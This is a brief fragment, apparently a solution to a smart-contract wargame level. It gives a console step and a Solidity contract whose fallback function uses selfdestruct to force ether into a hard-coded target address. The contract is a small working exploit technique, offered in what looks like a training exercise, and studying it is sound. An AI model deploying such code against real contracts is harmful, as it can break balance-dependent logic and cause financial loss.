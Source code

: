 1. `await contract.address`

```
pragma solidity ^0.4.18;

contract SendMoney {
    address public targetAddr = 0x74676681388547e64147f20bdc29bfb7b403babc;

    function () public payable {
        selfdestruct(targetAddr);
    }
}
```